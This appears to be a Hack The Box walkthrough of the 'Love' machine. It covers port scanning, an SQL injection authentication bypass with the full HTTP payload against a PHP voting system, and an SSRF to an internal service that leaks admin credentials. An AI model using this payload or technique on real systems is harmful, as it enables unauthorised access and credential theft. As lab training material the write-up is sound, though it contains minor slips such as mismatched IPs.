First of all we check that we have connection with IP target.
```bash
$ ping -c 1 10.129.48.103
```


This TTL value on HTB indicates that is a Windows machine.

We will start with our usual Nmap scan and find the following open ports. 
```bash
$ sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn -A 10.129.229.41 -oG tcp_scan.xml
```
-p- → Scans all 65,535 TCP ports, not just the most common ones. All 65,535 TCP ports, not just the most common ones, not just the most common ones. 

--open → Shows only ports that are open, filtering out closed or filtered ones.

-sS → Performs a TCP SYN scan (half-open scan), which is fast and stealthy and requires root privileges.

-sC → Runs default NSE (Nmap Scripting Engine) scripts to gather additional information such as common vulnerabilities and service details.

-sV → Attempts to detect service versions running on open ports.

--min-rate 5000 → Forces Nmap to send at least 5000 packets per second, speeding up the scan but increasing the chance of detection or packet loss. 

-n →  Disables DNS resolution to make the scan faster.

-Pn → Skips host discovery and assumes the target is alive, useful when ICMP is blocked.

-A → Enables aggressive scan options, including OS detection, version detection, script scanning, and traceroute.

-oG → Output option: write results in XML format to file nmap.xml.  Other formats: -oN (normal), -oG (grepable), -oA (all formats).







First of all we will try to open with our browser the IP. To access the website, we must add the IP to our /etc/hosts file to resolve the connection with the IP address.
```bash
$ echo "10.129.48.103 www.love.htb staging.love.htb" | sudo tee -a /etc/hosts 
```



Now we can go to the website through the port 80



If we search sploit for "voting system ", we find an authenticated remote code execution (RCE) vulnerability affecting the voting system.
```bash 
$ searchsploit voting system
```


We can search what type of sploit is the Authentication Bypass (SQLI)
```bash
$ searchsploit -x php/webapps/49843.txt
```
```bash
# Exploit Author: secure77
# Vendor Homepage: https://www.sourcecodester.com/php/12306/voting-system-using-php.html
# Software Link: https://www.sourcecodester.com/download-code?nid=12306&title=Voting+System+using+PHP%2FMySQLi+with+Source+Code
# Version: 1.0
# Tested on: Linux Debian 5.10.28-1kali1 (2021-04-12) x86_64 // PHP Version 7.4.15 & Built-in HTTP server // mysql Ver 15.1 Distrib 1
0.5.9-MariaDB

You can simply bypass the /admin/login.php with the following sql injection.
All you need is a bcrypt hash that is equal with your random password, the username should NOT match with an existing


########################### Vulnerable code ############################
if(isset($_POST['login'])){
        $username = $_POST['username'];
        $password = $_POST['password'];

        $sql = "SELECT * FROM admin WHERE username = '$username'";
        $query = $conn->query($sql);

        if($query->num_rows < 1){
                $_SESSION['error'] = 'Cannot find account with the username';
        }
        else{
                $row = $query->fetch_assoc();
                echo "DB Password: " . $row['password'];
                echo "<br>";
                echo "<br>";
                echo "Input Password: " . $password;
                if(password_verify($password, $row['password'])){
                        echo "Equal";
                        $_SESSION['admin'] = $row['id'];
                }
                else{
                        echo "not Equal";
                        $_SESSION['error'] = 'Incorrect password';
                }
        }

}
else{
        $_SESSION['error'] = 'Input admin credentials first';
}

########################### Payload ############################
POST /admin/login.php HTTP/1.1
Host: 192.168.1.1
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=tliephrsj1d5ljhbvsbccnqmff
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
(END)
```

We can see credentials to make a bypass, so We send a login request using the credentials user: admin and password: admin, and intercept the request with Burp Suite. Afterwards, we replace them with the credentials mentioned in the previously discovered exploit to check if we can achieve a bypass.

Previously we can try to modify the url for Admin session → http://www.love.htb/admin/. And works perfectly. So now we can try to make a bypass





And now we change the credentials



And we are in as a “Neovic Devierte” user


But we can't do anything so we loguot the sesion to try another way.

Since we have not obtained any credentials yet and account registration is not available, we proceed with further enumeration of the target.

While navigating to staging.love.htb, we discover a page that offers a service for scanning files for malware signatures. By selecting the “demo” option, we are redirected to beta.php, where the file scanning application is hosted.





When attempting to access www.love.htb:5000, we encounter the following message:  
"You don't have permission to access this resource."

Additionally, the page provides a field where we can input an IP address in the URL parameter. However, when we try supplying a host:port combination, the request is explicitly rejected.

However, if we are able to access http://127.0.0.1:5000/, we can observe the internal service running on the machine.  

At this point, it also becomes possible to retrieve credentials for the OMRS through port 5000, as demonstrated below.



Finally, we have the credentials for OMRS 
```bash
admin : @LoveIsInTheAir!!!!
```


[Back](README.md)
